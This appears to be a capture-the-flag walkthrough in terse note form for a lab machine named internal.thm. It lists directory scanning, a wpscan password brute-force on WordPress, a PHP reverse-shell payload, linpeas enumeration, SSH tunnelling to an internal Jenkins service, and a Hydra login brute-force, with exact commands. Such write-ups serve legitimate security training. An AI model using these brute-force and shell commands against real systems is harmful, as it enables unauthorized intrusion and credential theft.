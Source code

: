 1. Scan with dirbuster, wordlist is in /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt to get /blog, wp
2. Change /etc/hosts: ip internal.thm . Remember to use sudo so don't waste time do it again
3. wpscan to get access: wpscan --url http://internal.thm/blog/ --usernames admin --passwords /home/phulelouch/Downloads/SecLists/Passwords/darkweb2017-top10000.txt
4. php pentest monkey payload, but may need to use something else
5. linpeas.sh (it suppose to show /opt have some interesting file but it stop middle so need to find out), but remember to check files manually
6. ssh to user, linpeas.sh again 
7. SSH TUNNLING: ssh -L your_machine_port:ip_you_want_to_access:port_want_to_access user@host <normal>
ssh -L 4444:172.17.0.2:8080 aubreanna:@10.10.107.36
8. Hydra http-post-form: hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 16 -s 4444 localhost http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Error" -vV -f
9. Jenkins 
10. get root and credential


